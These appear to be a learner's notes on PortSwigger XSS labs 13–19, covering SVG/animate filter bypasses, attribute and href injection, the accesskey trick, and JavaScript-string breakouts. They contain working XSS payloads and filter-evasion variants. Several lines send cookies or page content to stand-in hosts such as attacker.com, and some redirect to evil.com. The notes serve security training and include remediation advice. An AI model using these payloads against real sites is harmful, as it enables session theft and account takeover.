- Block event handlers  
- Avoid dynamic HTML  
- Use CSP  
- Use safe frameworks  

---

## 🧠 Bug Hunter Mindset

👉 Are standard tags blocked?  
👉 Can I use custom tags?  
👉 Which events work?  
👉 Can I force trigger?  

---

## 🧠 Ultimate Mental Model

```
Bypass filter
↓
Inject custom tag
↓
Attach event
↓
Force trigger
↓
Execute
```

---

# Lab - 13 📝 Reflected XSS with SVG Allowed 

---

## 🧭 Overview

This lab demonstrates a **Reflected XSS vulnerability** where:

✔ User input is reflected in HTML  
✔ Most HTML tags are blocked ❌  
✔ Some SVG tags & events are allowed ✔  

👉 **Goal:**

```
alert(1)
```

---

## 🧠 Core Concept

HTML blocked → switch to SVG  

Find allowed tag + allowed event → execute JS  

---

## 🔄 Flow

User Input → Server → HTML Response → Browser parses SVG → Event triggers → JS executes  

---

## 🧠 Source

```
?search=INPUT
```

---

## 🧠 Sink

Reflected into HTML page  

---

## ⚠️ Restrictions

```
<script>  → blocked
     → blocked
Most HTML → blocked

SVG tags        → allowed
Some SVG events → allowed
```

---

## 🧠 Key Discovery (Burp Intruder)

### 🔹 Allowed TAGS

```
<svg>
<animatetransform>
<title>
<image>
```

---

### 🔹 Allowed EVENT

```
onbegin
```

---

## 🪜 Lab Walkthrough 

---

### Step 1 — Try Basic Payload

Inject the following payload:

```

```

❌ Observe that this payload gets blocked  

👉 Indicates filtering/WAF is in place  

---

### Step 2 — Prepare for Testing with Intruder

- Open Burp's browser  
- Use the **search function** in the lab  
- Send the request to **Burp Intruder**  

---

### Step 3 — Setup Initial Payload Position

In the request template:

Replace search parameter value with:

```
<>
```

Now:

- Place cursor between `< >`  
- Click **Add §**

Final payload position:

```
<§§>
```

---

### Step 4 — Load Tag Payloads

- Visit XSS Cheat Sheet  
- Click **Copy tags to clipboard**  

In Intruder:

- Go to **Payloads panel**  
- Click **Paste**  
- Click **Start attack** 🚀  

---

### Step 5 — Analyze Tag Results

After attack completes:

- Review results  

Observation:

- Most payloads → **400 response (blocked)** ❌  
- Some payloads → **200 response (allowed)** ✔  

Allowed tags identified:

```
<svg>
<animatetransform>
<title>
<image>
```

---

### 📸 Screenshot — Allowed SVG Tags



---

### Step 6 — Prepare Event Enumeration

Go back to Intruder and replace search term with:

```
<svg><animatetransform%20=1>
```

---

### Step 7 — Setup Event Payload Position

- Place cursor before `=`  
- Click **Add §**

Final payload:

```
<svg><animatetransform%20§§=1>
```

---

### Step 8 — Load Event Payloads

- Visit XSS Cheat Sheet  
- Click **Copy events to clipboard**  

In Intruder:

- Click **Clear** (remove previous payloads)  
- Click **Paste** (add events list)  
- Click **Start attack** 🚀  

---

### Step 9 — Analyze Event Results

After attack completes:

- Review results  

Observation:

- Most events → **400 response (blocked)** ❌  
- One event → **200 response (allowed)** ✔  

Allowed event:

```
onbegin
```

---

### 📸 Screenshot — Allowed SVG Events



---

### Step 10 — Confirm Exploit

Visit the following URL in browser:

```
https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```

✔ `alert(1)` is triggered  
✔ Lab is solved  

---

### 📸 Screenshot — Final Payload Execution



---

## 🧠 Payload Breakdown

### 🔹 Context Break

```
">
```

Closes existing HTML context  

---

### 🔹 SVG Container

```
<svg>
```

Allowed tag  

---

### 🔹 Animation Element

```
<animatetransform>
```

Supports animation events  

---

### 🔹 Auto Trigger Event

```
onbegin
```

Executes automatically  

---

### 🔹 Execution

```
alert(1)
```

Runs JavaScript  

---

## 🪜 Execution Flow

1️⃣ Payload injected  
2️⃣ Server reflects input  
3️⃣ Browser parses SVG  
4️⃣ Animation starts  
5️⃣ onbegin triggers  
6️⃣ alert executes 💥  

---

## 🧠 Encoding Concept (IMPORTANT)

Raw payload → may break URL ❌  
Encoded payload → safe & executable ✔  

Examples:

```
<  → %3C
>  → %3E
"  → %22
```

---

## 🧠 Key Learning

❌ Don’t guess payloads  
✔ Always enumerate allowed behavior  

---

## 🌍 Real-World SVG XSS Scenarios

### 🟢 Basic SVG

```
<svg onload=alert(1)>
```

---

### 🟢 Animation-Based

```
<svg><animate onbegin=alert(1)>
```

---

### 🟢 Transform-Based

```
<svg><animatetransform onbegin=alert(1)>
```

---

### 🟢 Image Inside SVG

```
<svg><image href=1 onerror=alert(1)>
```

---

### 🟢 Title Trick

```
<svg><title onmouseover=alert(1)>
```

---

### 🟢 Advanced

```
<svg><foreignObject><script>alert(1)</script></foreignObject></svg>
```

---

### 🟢 Event Chaining

```
<svg><animatetransform onbegin=eval('alert(1)')>
```

---

### 🟢 Obfuscated Payload

```
<svg><animatetransform onbegin=alert(String.fromCharCode(49))>
```

---

### 🟢 URL-Based Delivery

```
https://target.com/?search=ENCODED_PAYLOAD
```

---

### 🟢 Iframe Delivery

```
<iframe src="https://target.com/?search=PAYLOAD"></iframe>
```

---

## 🎯 High-Value Targets

- Search endpoints  
- Filters & query parameters  
- Analytics dashboards  
- Error pages  
- CMS preview features  
- Redirect / tracking endpoints  

---

## 🔗 Attack Chains (Real Impact)

### 🔥 Session Hijacking

```
fetch("https://attacker.com?c="+document.cookie)
```

---

### 🔥 Account Takeover

Steal session cookies & tokens  

---

### 🔥 Admin Compromise

Admin opens malicious link → payload executes  

---

### 🔥 Data Exfiltration

```
fetch("https://attacker.com?d="+document.body.innerHTML)
```

---

### 🔥 Phishing Redirect

```
onbegin="location='https://fake-login.com'"
```

---

## 🧠 Bug Hunter Mindset

👉 Which tags are allowed?  
👉 Which events are allowed?  
👉 Does it auto-trigger?  
👉 Do I need encoding?  

---

## 🧠 Ultimate Formula

Enumerate  
↓  
Find Allowed  
↓  
Combine  
↓  
Encode  
↓  
Execute  

---

## 🎯 Final Summary

HTML blocked  
SVG allowed  
onbegin allowed  

→ XSS achieved 💥  

---

## 🚀 Next Level

👉 SVG + CSP bypass  
👉 XSS polyglots  
👉 Advanced WAF evasion

---

# Lab - 14 📝 Reflected XSS with Whitelisted Tags & Blocked href/events (SVG Animate Bypass)

---

## 🧭 Overview

✔ Some tags allowed (SVG, a, etc.)  
❌ All events blocked (onclick, onerror, etc.)  
❌ Direct href="javascript:..." blocked  

👉 **Goal:**

```
alert(1)
```

---

## 🧠 Core Concept

Direct attack → blocked ❌  
Dynamic modification → allowed ✔  

👉 We don’t write dangerous code directly  
👉 We make browser create it later 😈  

---

## 🔄 Flow

User Input → Server → Response → Browser → SVG animate → modify href → Click → JS executes  

---

## 🧠 Source

```
?search=
```

---

## 🧠 Sink

Reflected into HTML page  

---

## ⚠️ Restrictions

```
onclick / onerror        → blocked
href="javascript:..."   → blocked
SVG tags                → allowed
animate tag             → allowed
```

---

## 🪜 Lab Steps

---

### Step 1 — Test reflection

```
test123
```

✔ Appears on page  

---

### Step 2 — Try normal payload

```

```

❌ Blocked  

---

### Step 3 — Try anchor

```
<a href="javascript:alert(1)">Click</a>
```

❌ Blocked  

---

### Step 4 — Find alternative (SVG)

SVG supports animation → can modify attributes  

---

### Step 5 — Build payload

```
<svg>
  <a>
    <animate attributeName=href values=javascript:alert(1) />
    <text>Click me</text>
  </a>
</svg>
```

---

### Step 6 — Encode for URL

```
<  → %3C
>  → %3E
(space) → %20
```

---

## 💥 FINAL PAYLOAD

```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text>Click me</text></a></svg>
```



---

## 🧠 Payload Breakdown

```
<svg>                     → allowed container
<a>                       → clickable element
<animate>                 → dynamic modifier
attributeName=href        → target attribute
values=javascript:alert(1) → payload
<text>Click me</text>     → user trigger
```

---

## 🪜 Execution Flow

1️⃣ Payload injected  
2️⃣ WAF checks → no direct attack → allows ✔  
3️⃣ Browser loads SVG  
4️⃣ animate runs automatically  
5️⃣ href becomes javascript:alert(1)  
6️⃣ User clicks  
7️⃣ alert(1) executes 💥  

---

## 🧠 Key Learning

Filters check static input ❌  
Browser executes dynamic behavior ✔  

---

## 🌍 Real-World Variations

---

### 🟢 1️⃣ Basic SVG animation

```
<svg><a><animate attributeName=href values=javascript:alert(document.domain) /><text>Click</text></a></svg>
```

---

### 🟢 2️⃣ Different JS payload

```
<svg><a><animate attributeName=href values=javascript:confirm(1) /><text>Click</text></a></svg>
```

---

### 🟢 3️⃣ Cookie stealing (real attack)

```
<svg><a><animate attributeName=href values=javascript:fetch('https://attacker.com/?c='+document.cookie) /><text>Click</text></a></svg>
```

---

### 🟢 4️⃣ Redirect attack

```
<svg><a><animate attributeName=href values=javascript:location='https://evil.com' /><text>Click</text></a></svg>
```

---

### 🟢 5️⃣ Encoding bypass

```
<svg><a><animate attributeName=href values=javascript:%61lert(1) /><text>Click</text></a></svg>
```

---

### 🟢 6️⃣ Using <set> instead of animate

```
<svg><a><set attributeName=href to=javascript:alert(1) /><text>Click</text></a></svg>
```

---

### 🟢 7️⃣ Delayed execution

```
<svg><a><animate attributeName=href values=javascript:alert(1) begin=1s /><text>Click</text></a></svg>
```

---

### 🟢 8️⃣ Multiple values trick

```
<svg><a><animate attributeName=href values="safe;javascript:alert(1)" /><text>Click</text></a></svg>
```

---

## 🧠 Advanced Real-World Scenarios

---

### 🔴 Scenario 1 — WAF blocks "javascript:"

```
javascript:%61lert(1)
```

---

### 🔴 Scenario 2 — href blocked but SVG allowed

👉 Use:

```
animate / set / animateTransform
```

---

### 🔴 Scenario 3 — user interaction required

👉 Use social engineering:

```
"Click here"
"Verify account"
"Download file"
```

---

### 🔴 Scenario 4 — phishing delivery

```
https://target.com/?search=PAYLOAD
```

---

### 🔴 Scenario 5 — DOM reuse

Payload stored → reused later → executed via JS  

---

## 🧠 Common Mistakes

❌ Using direct href  
❌ Using blocked events  
❌ Forgetting encoding  
❌ Not adding clickable text  

---

## 🛡 Prevention

Escape HTML properly  
Sanitize or block SVG  
Avoid dynamic attribute modification  
Use CSP  

---

## 🧠 Bug Hunter Mindset

Ask:

👉 What is allowed?  
👉 What is blocked?  
👉 Can I modify behavior dynamically?  

---

## 🧠 Formula

```
Find Allowed → Find Dynamic Feature → Modify Attribute → Trigger
```

---

# 🐞 Lab 15 — Reflected XSS in HTML Attribute Context (Angle Brackets Encoded)

---

## 🔹 Overview

Reflected Cross-Site Scripting in attribute context occurs when:

✔ User input is sent to the server  
✔ The server reflects it inside an HTML attribute  
✔ The browser interprets injected attributes as executable behavior  

Example:

```
<input value="USER_INPUT">
```

---

## ⚠️ Key Restriction

```
<  >  → encoded ❌
```

✔ Cannot inject new HTML tags  
✔ Must stay INSIDE the existing tag  

👉 Core Idea:

We cannot create new elements  
We must MODIFY the existing element  

---

## 🧠 What Is This Topic?

Context-based XSS where:

👉 Execution depends on WHERE input lands  

---

## 🔄 Flow

1️⃣ User sends input  
2️⃣ Server reflects inside attribute  
3️⃣ Browser parses HTML  
4️⃣ Injected attribute executes  

---

## 🧠 XSS Context (This Lab)

```
<input value="INPUT">
```

👉 ATTRIBUTE VALUE CONTEXT  

---

## 🪜 Lab Walkthrough

---

### Step 1 — Open Lab

Locate search functionality  

---

### Step 2 — Test Reflection

```
test123
```

✔ Appears on page  



---

### Step 3 — Inspect Response (Burp)

```
<input value="test123">
```

✔ Confirmed → attribute context  

---

### Step 4 — Try Normal XSS

```
<script>alert(1)</script>
```

❌ Fails (angle brackets encoded)  

---

### Step 5 — Break Attribute

```
"
```

HTML becomes:

```
value=""
```

✔ Attribute escaped  

---

### Step 6 — Inject Event Handler

```
" onmouseover="alert(1)
```

---

### Step 7 — Final HTML

```
<input value="" onmouseover="alert(1)">
```

---

### Step 8 — Trigger

Move mouse → alert executes 💥  



---

## ✅ Lab Solved

---

## 🧠 Key Learning

When `< >` are blocked → switch to **attribute injection**  

---

## 🧠 Payload Breakdown

---

### Payload

```
" onmouseover="alert(1)
```

---

### Step-by-step

---

#### 1️⃣ Close Attribute

```
"
```

Closes original attribute  

---

#### 2️⃣ Inject Event

```
onmouseover=
```

Creates new attribute  

---

#### 3️⃣ Execution

```
"alert(1)"
```

Runs JavaScript  

---

### 🎯 Final Meaning

Close original → inject event → execute JS  

---

## 🔹 Optional Fix (x=")

---

### Payload

```
" onmouseover="alert(1) x="
```

---

### Purpose

✔ Fix broken HTML  
✔ Ensure proper parsing  

---

### Rule

✔ Use only if needed  
❌ Not mandatory  

---

## 🪜 Execution Flow

1️⃣ Input injected  
2️⃣ Attribute closed  
3️⃣ New attribute added  
4️⃣ Browser parses  
5️⃣ Event triggered  
6️⃣ JS executes  

---

## 🌍 Real-World Scenarios (ATTRIBUTE CONTEXT)

---

### 🟢 1️⃣ Input Field Injection

```
<input value="INPUT">
```

Payload:

```
" onfocus="alert(1) autofocus="
```

✔ Auto-trigger  

---

### 🟢 2️⃣ Placeholder Attribute

```
<input placeholder="INPUT">
```

Payload:

```
" onmouseover="alert(1)
```

---

### 🟢 3️⃣ Data Attributes

```
<div data-name="INPUT">
```

Payload:

```
" onclick="alert(1)
```

---

### 🟢 4️⃣ Hidden Fields

```
<input type="hidden" value="INPUT">
```

Payload:

```
" onfocus="alert(1) autofocus="
```

---

### 🟢 5️⃣ Title Attribute

```
<div title="INPUT">
```

Payload:

```
" onmouseenter="alert(1)
```

---

### 🟢 6️⃣ Button Injection

```
<button value="INPUT">
```

Payload:

```
" onclick="alert(1)
```

---

### 🟢 7️⃣ Form Attribute Injection

```
<form action="INPUT">
```

Payload:

```
" onsubmit="alert(1)
```

---

### 🟢 8️⃣ Image Attributes

```

```

Payload:

```
" onerror="alert(1)
```

---

### 🟢 9️⃣ SVG Attribute Context

```
<svg width="INPUT">
```

Payload:

```
" onload="alert(1)
```

---

### 🟢 🔟 Link Attributes

```
<a title="INPUT">
```

Payload:

```
" onclick="alert(1)
```

---

## 🔥 Event Strategy

---

### ✔ Auto-trigger (BEST)

```
onfocus + autofocus
onload
onanimationstart
```

---

### ✔ User-trigger

```
onmouseover
onclick
onmouseenter
```

---

### ✔ Input-trigger

```
oninput
onchange
onkeydown
```

---

## 🔗 Attack Chains

---

### 🔥 Session Theft

```
document.cookie
```

---

### 🔥 Token Theft

```
localStorage.getItem("token")
```

---

### 🔥 Account Takeover

Modify user actions via JS  

---

### 🔥 Phishing

Inject fake UI  

---

### 🔥 CSRF Bypass

Send requests via JS  

---

## 🛡️ Remediation

Escape attribute values  
Use proper encoding  
Avoid dynamic HTML insertion  
Use CSP  

---

## 🧠 Bug Hunter Mindset

Ask:

👉 Is input inside attribute?  
👉 Can I break quotes?  
👉 Can I inject event?  
👉 Can I auto-trigger?  

---

---

# 🐞 Lab 16 - Stored XSS in Anchor href Attribute (javascript: Protocol)

---

## 🔹 Overview

Stored Cross-Site Scripting (Stored XSS) occurs when:

✔ User input is submitted to the server  
✔ The server stores it (database)  
✔ The stored input is later rendered to other users  
✔ The browser executes it as code  

---

## ⚠️ Lab Conditions

✔ Input is stored (comment system)  
✔ Reflected later in page  
✔ Appears inside anchor href attribute  

```
<a href="USER_INPUT">
```

❌ Double quotes are encoded  
✔ Cannot break attribute  

👉 BUT:

✔ `href` itself is a scriptable context 😈  

---

## 🧠 Core Idea

We don’t break HTML ❌  
We modify the VALUE of href ✔  

---

## 🧠 What Is This Topic?

Attribute-based Stored XSS  

Where:

👉 Certain attributes can directly execute JavaScript  

---

## 🔑 Dangerous Attributes

```
href
src
action
formaction
```

---

## 🔄 Flow

1️⃣ User submits input  
2️⃣ Server stores it  
3️⃣ Page renders stored input  
4️⃣ Input appears inside href  
5️⃣ User clicks → JS executes  

---

## 🧠 Key Concept

Not all XSS requires breaking context ❌  
Sometimes the context itself is dangerous ✔  

---

## 🪜 Lab Walkthrough

---

### Step 1 — Open Lab

Go to blog comment section  

---

### Step 2 — Test Reflection

Enter in **Website field**:

```
XSS123
```

---

### Step 3 — Observe Output

```
<a href="XSS123">AuthorName</a>
```

✔ Confirmed → input inside `href`  



---

### Step 4 — Inject Payload

Enter in Website field:

```
javascript:alert(1)
```

---

### Step 5 — Verify in Response

```
<a href="javascript:alert(1)">AuthorName</a>
```

✔ Payload stored successfully  

---

### Step 6 — Trigger

Go back to blog  
Click author name  

💥 alert(1) executes  



---

## ✅ Lab Solved

---

## 🧠 Payload Breakdown

---

### 🎯 Payload

```
javascript:alert(1)
```

---

### 🔹 PART 1 — javascript:

Special protocol  

👉 Browser executes JS instead of navigating  

---

### 🔹 PART 2 — alert(1)

JavaScript payload  

---

### 🎯 Combined Meaning

Instead of opening link → execute JavaScript  

---

## 🪜 Execution Flow

1️⃣ Payload stored in database  
2️⃣ Server renders:

```
<a href="javascript:alert(1)">
```

3️⃣ User clicks link  
4️⃣ Browser executes JS  
5️⃣ XSS triggered 💥  

---

## 🧠 Key Learning

If input is inside `href` → try:

```
javascript:
```

FIRST 🔥  

---

## 🌍 Real-World Scenarios

---

### 🟢 1️⃣ Comment Website Field

```
<a href="USER_INPUT">Author</a>
```

Payload:

```
javascript:alert(1)
```

---

### 🟢 2️⃣ Profile Links

```
<a href="USER_INPUT">My Website</a>
```

Payload:

```
javascript:alert(document.domain)
```

---

### 🟢 3️⃣ Redirect Parameters

```
<a href="next=USER_INPUT">
```

Payload:

```
javascript:alert(1)
```

---

### 🟢 4️⃣ Admin Panel Links

```
<a href="USER_INPUT">View</a>
```

Payload:

```
javascript:fetch('https://attacker.com/'+document.cookie)
```

---

### 🟢 5️⃣ Download Links

```
<a href="USER_INPUT">Download</a>
```

Payload:

```
javascript:location='https://evil.com'
```

---

### 🟢 6️⃣ Messaging Systems

```
<a href="USER_INPUT">Click here</a>
```

Payload:

```
javascript:alert(1)
```

---

### 🟢 7️⃣ CMS / Blogs (Stored XSS)

```
<a href="USER_INPUT">Author</a>
```

Payload:

```
javascript:alert(1)
```

✔ Affects ALL users  

---

## 🔥 Advanced Variations

---

### 🔴 1️⃣ Encoding Bypass

```
javascript:%61lert(1)
```

---

### 🔴 2️⃣ Case Bypass

```
JaVaScRiPt:alert(1)
```

---

### 🔴 3️⃣ Whitespace Trick

```
javascript:    alert(1)
```

---

### 🔴 4️⃣ Newline Bypass

```
javascript:
alert(1)
```

---

### 🔴 5️⃣ Alternative Payload

```
javascript:confirm(1)
```

---

### 🔴 6️⃣ Cookie Exfiltration

```
javascript:fetch('https://attacker.com?c='+document.cookie)
```

---

## 🔗 Attack Chains

---

### 🔥 Account Takeover

Steal session → login as victim  

---

### 🔥 Admin Compromise

Admin clicks → full control 💀  

---

### 🔥 Data Exfiltration

Steal sensitive data  

---

### 🔥 Phishing

Redirect to fake login  

---

### 🔥 Worm Attack

Auto-spread via comments  

---

## 🛡️ Remediation

Disallow `javascript:` protocol  
Allow only http/https  
Validate URLs strictly  
Sanitize input  
Use CSP  

---

## 🧠 Bug Hunter Mindset

Ask:

👉 Is input inside `href`?  
👉 Can I use `javascript:`?  
👉 Is it stored or reflected?  
👉 Who will click it?  

---

# 🐞 Lab 17 - Reflected XSS in Canonical Tag (Accesskey Technique)

---

## 🔹 Overview

Reflected Cross-Site Scripting (Reflected XSS) occurs when:

- User input is sent to the server  
- The server immediately reflects it in the response  
- The browser interprets it as executable code  

---

## 🔍 Lab Conditions

✔ Input is reflected in `<link rel="canonical">`  
❌ Angle brackets (`< >`) are encoded  
✔ Cannot inject new tags  

✔ BUT attributes can be injected  
✔ Element is non-clickable  

👉 Normal event-based XSS fails  

---

## 🧠 Core Idea

Non-clickable element + attribute injection  
→ Need alternative trigger mechanism  

---

## 🧠 What This Lab Teaches

- Attribute Injection  
- Non-clickable element exploitation  
- Keyboard-triggered execution  
- `accesskey` abuse  

---

## 🔄 Flow

1️⃣ User sends payload in URL  
2️⃣ Server reflects it inside canonical tag  
3️⃣ Browser parses attributes  
4️⃣ User presses key combination  
5️⃣ Event fires → JavaScript executes  

---

## 🪜 Lab Walkthrough

---

### Step 1 — Open Lab

---

### Step 2 — Test Reflection

```
XSS123
```

---

### Step 3 — Check Response (Burp)

```
<link rel="canonical" href="https://site/?XSS123">
```

✔ Confirmed → attribute context  

---

### Step 4 — Try Normal Payload

```
" onclick="alert(1)
```

❌ Fails  
Reason: element is NOT clickable  

---

### Step 5 — Use Accesskey Technique

```
'accesskey='x'onclick='alert(1)
```

---

### Step 6 — Encode Payload

```
https://LAB-ID/?%27accesskey=%27x%27onclick=%27alert(1)
```

---

### Step 7 — Resulting HTML

```
<link rel="canonical" href="' accesskey='x' onclick='alert(1)">
```

---

### Step 8 — Trigger

Press:

```
Windows:
ALT + SHIFT + X

Linux:
ALT + X
```

---

### Step 9 — Execution

```
alert(1)
```

💥 XSS triggered  

---

## 📸 Screenshot — Final Payload Execution



---

## 🔹 Payload Breakdown

### 🎯 Payload

```
'accesskey='x'onclick='alert(1)
```

---

### PART 1 — `'`

Closes existing attribute value  

---

### PART 2 — `accesskey='x'`

Creates keyboard shortcut  

---

### PART 3 — `onclick='alert(1)'`

Injects JavaScript execution  

---

## 🔐 Encoded Version

```
%27accesskey=%27x%27onclick=%27alert(1)
```

---

## 🪜 Execution Flow

1️⃣ Payload injected into URL  
2️⃣ Server reflects into canonical tag  
3️⃣ Browser builds DOM  
4️⃣ accesskey binds key  
5️⃣ User presses shortcut  
6️⃣ onclick fires  
7️⃣ JavaScript executes 💥  

---

## 🧠 Key Learning

If element is NOT clickable  
→ Use `accesskey` to trigger execution  

---

## 🌍 Real-World Scenarios

---

### 🟢 Canonical Tag Injection

```
<link rel="canonical" href="USER_INPUT">
```

---

### 🟢 Hidden Input Field

```
<input type="hidden" value="USER_INPUT">
```

Payload:

```
" accesskey="x" onclick="alert(1)
```

---

### 🟢 Meta Tag Injection

```
<meta content="USER_INPUT">
```

---

### 🟢 Non-clickable Containers

```
<div style="display:none">USER_INPUT</div>
```

---

## 🔥 Payload Variations

---

### 🔴 Different Event

```
'accesskey='x'onfocus='alert(1)
```

---

### 🔴 Using confirm

```
'accesskey='x'onclick='confirm(1)
```

---

### 🔴 Data Exfiltration

```
'accesskey='x'onclick='fetch("https://attacker.com?c="+document.cookie)
```

---

### 🔴 Case Bypass

```
'accesskey='X'onclick='alert(1)
```

---

### 🔴 Mixed Encoding

```
%27accesskey=%27x%27onClick=%27alert(1)
```

---

## 🔗 Attack Chains

---

### 🔥 Admin Trigger

Admin presses shortcut → payload executes  

---

### 🔥 Social Engineering

“Press Alt+X to continue”  

---

### 🔥 Data Theft

Keyboard trigger → JS → exfiltration  

---

### 🔥 UI Redress

Combine with fake instructions  

---

## 🛡️ Remediation

- Escape attribute values  
- Disallow event attributes  
- Use strict CSP  
- Sanitize input  
- Avoid reflecting input in `<link>`  

---

## 🧠 Bug Hunter Mindset

Ask:

- Is element clickable?  
- If NOT → can I use keyboard?  
- Can I inject attributes?  
- Can I force execution?  

---

## 🧠 Ultimate Mental Model

Find input  
→ Find reflection  
→ Identify context (ATTRIBUTE)  
→ Check interaction (clickable or not)  
→ If NOT clickable → use accesskey  
→ Trigger via keyboard  
→ Execute JS  
→ Evaluate impact  

---

## 🎯 Final Summary

✔ Attribute injection possible  
✔ Element not clickable  
✔ accesskey used as trigger  
✔ onclick executed  
✔ XSS achieved 💥  

---

# 🐞 Lab 18 - Reflected XSS into JavaScript String (Escaped Quotes)

---

## 🔹 Overview

Reflected XSS inside JavaScript occurs when:

- User input is inserted inside a `<script>` block  
- Specifically inside a JavaScript string  
- The application escapes quotes using backslashes (`\`)  

---

👉 This makes simple payloads fail  
👉 Requires JS-level bypass OR HTML-level breakout  

---

## 🔹 What Is This Topic?

This is a **JavaScript context XSS**

---

## 🔄 Flow

1️⃣ User sends input  
2️⃣ Server places it inside JS string  

```
var input = 'USER_INPUT';
```

3️⃣ Application escapes quotes:

```
' → \'
```

4️⃣ Browser executes script  

---

## 🔹 Core Concepts

---

### 🟢 Escaped Characters

```
\'  → escaped quote (NOT string end)
```

---

### 🟢 Backslash Behavior

```
\\  → one real backslash  
\   → escape operator
```

---

### 🟢 Parsing Order

- HTML parsing → first  
- JavaScript execution → second  

---

## 🪜 Lab Walkthrough

---

### Step 1 — Test Input

```
XSS123
```

---

### Step 2 — Observe Response

```
<script>
var searchTerms = 'XSS123';
</script>
```

✔ Input inside JS string  

---

## 📸 Screenshot 1 — Reflection in JS String



---

### Step 3 — Try Basic Payload

```
';alert(1);//
```

---

### Step 4 — Result (Escaped)

```
var searchTerms = '\';alert(1);//';
```

❌ Payload fails  

---

### 🔴 Why It Failed

- `'` becomes `\'`  
- String NOT closed  
- Payload stays as text  

---

## 📸 Screenshot 2 — Escaped Payload (Backslash Applied)


---

### Step 5 — Try Backslash Bypass

```
\\';alert(1);//
```

---

### 🟡 Idea

- First `\` cancels second `\`  
- Quote becomes usable  

---

### Step 6 — Final Working Payload (HTML Breakout)

```
</script><script>alert(1)</script>
```

---

### Step 7 — Resulting Output

```
<script>
var searchTerms = '</script><script>alert(1)</script>';
</script>
```

---

## 📸 Screenshot 3 — Final Payload Execution



---

## 💥 Execution Flow

1️⃣ `</script>` → closes current script  
2️⃣ `<script>` → starts new script  
3️⃣ `alert(1)` → executes  

---

## 🔹 Payload Breakdown

---

### 🎯 Payload

```
</script><script>alert(1)</script>
```

---

### Parts

```
</script>  → break out of JS  
<script>   → start new script  
alert(1)   → execute  
</script>  → close cleanly  
```

---

## 🧩 Analogy

JS string is locked ❌  
HTML parser is weak ✔  

👉 Break the script block instead of the string  

---

## 🔹 Why First Payload Failed

```
' → becomes \'
```

→ Not closing string  
→ No execution  

---

## 🔹 Why Final Payload Worked

- HTML parsing ignores JS escaping  
- `</script>` closes block immediately  
- New script executes  

---

## 🌍 Real-World Scenarios

---

### 🟢 Search Tracking Scripts

```
var q = 'USER_INPUT';
```

Payloads:

```
</script><script>alert(1)</script>
\\';alert(1);//
```

---

### 🟢 Analytics / Logging

```
track('USER_INPUT');
```

---

### 🟢 Inline Script Data

```
var user = 'INPUT';
```

---

### 🟢 JSON-like Objects

```
var data = {name: 'INPUT'};
```

Payload:

```
'};alert(1);//
```

---

### 🟢 Escaped Environments

When you see:

```
\'  or  \"
```

Use:

```
\\';alert(1);//
```

---

## 🔗 Attack Chains

---

### 🔥 Cookie Theft

```
document.cookie
```

---

### 🔥 Token Theft

```
localStorage.getItem("token")
```

---

### 🔥 Account Takeover

- Change email  
- Reset password  
- Perform actions  

---

### 🔥 Admin Exploitation

Send malicious link → executes in admin browser  

---

## 🛡️ Remediation

- Context-aware JS escaping  
- Use `JSON.stringify()`  
- Avoid inline JS  
- Use CSP  
- Use secure frameworks  

---

## 💡 Pro Mindset

- JS context is tricky  
- Escaping ≠ safe  

Always test:

- JS breakout  
- HTML breakout  

---

## 🧠 Techniques

```
'           → test quote  
"           → alternate quote  
\\          → bypass escape  
</script>   → break script  
```

---

## 🧠 Ultimate Mental Model

Input  
→ Reflection  
→ Context (JS string)  
→ Try JS break  
→ If blocked → break HTML  
→ Execute  

---

## 🎯 FINAL GOLDEN RULE

If quotes are escaped  
→ BREAK `<script>` instead  

---

# 📝Lab-19 Reflected XSS - JavaScript String Context (Breaking Out of String) 

---

## 🧭 Overview

This lab demonstrates Reflected XSS where:

- ✔ User input is reflected inside JavaScript  
- ✔ Input is inside a quoted string  
- ✔ Angle brackets `< >` are encoded ❌  
- ✔ Must execute JavaScript without HTML injection  

---

## 🎯 Goal

```
alert(1)
```

---

## ⚠️ Important in This Lab

Input is inside JavaScript string:

```
var search = "INPUT";
```

👉 You are NOT in HTML  
👉 You are inside JavaScript code  

---

## 🔄 Flow

User Input → Server → JavaScript Response → Browser parses → String break → JS executes  

---

## 🧠 Source

```
?search=INPUT
```

---

## 🧠 Sink

```
var search = "INPUT";
```

---

## ⚠️ Important Behavior

- `<script>` will NOT work ❌  
- Angle brackets are encoded ❌  
- Browser executes JS AFTER full parsing  
- Syntax errors = NO execution  

---

## 🪜 Lab Walkthrough

---

### Step 1 — Test Reflection

```
XSS123
```

✔ Appears inside JavaScript  

---

## 📸 Screenshot 1 — Reflection in JS String



---

### Step 2 — Identify Context

```
var search = "test123";
```

✔ JavaScript string context  

---

### Step 3 — Try Normal Payload

```
<script>alert(1)</script>
```

❌ Fails (encoded)  

---

### Step 4 — Break the String

```
"
```

Result:

```
var search = "";
```

✔ String closed  

---

### Step 5 — Inject JavaScript

```
";alert(1)
```

---

### Step 6 — Fix Remaining Code

```
//
```

---

## 💥 Final Payload

```
';alert(1)//
```

---

### Step 7 — Final Execution

```
var search = '';alert(1)//';
```

✔ String closed  
✔ JS executed  
✔ Remaining code ignored  

---

## 📸 Screenshot 2 — Final Payload Execution



---

## 🧠 Payload Breakdown

---

### 🎯 Payload

```
';alert(1)//
```

---

### 1️⃣ `'`

Closes original string  

---

### 2️⃣ `;`

Ends statement  

---

### 3️⃣ `alert(1)`

JavaScript execution  

---

### 4️⃣ `//`

Comments out remaining code  

---

## 🔄 Execution Flow

1️⃣ Input injected  
2️⃣ String closed  
3️⃣ New JS injected  
4️⃣ Remaining code commented  
5️⃣ Browser executes  
6️⃣ alert triggers 💥  

---

## 🌍 Real-World Scenarios

---

### 🟢 Double Quote Context

```
var x = "INPUT";
```

Payload:

```
";alert(1)//
```

---

### 🟢 Single Quote Context

```
var x = 'INPUT';
```

Payload:

```
';alert(1)//
```

---

### 🟢 JSON Response

```
{"search":"INPUT"}
```

Payload:

```
\"-alert(1)}//
```

---

### 🟢 Inside Script Tag

```
<script>
var x = "INPUT";
</script>
```

---

### 🟢 Function Call

```
search("INPUT")
```

Payload:

```
");alert(1)//
```

---

### 🟢 Array Context

```
var x = ["INPUT"];
```

Payload:

```
"];alert(1)//
```

---

### 🟢 Object Property

```
var obj = {name: "INPUT"};
```

Payload:

```
"};alert(1)//
```

---

### 🟢 Template Literal

```
var x = `INPUT`;
```

Payload:

```
`;alert(1)//
```

---

## 🔥 Advanced Bypass Ideas

---

### When alert is blocked

```
';confirm(1)//
';prompt(1)//
```

---

### When quotes restricted

```
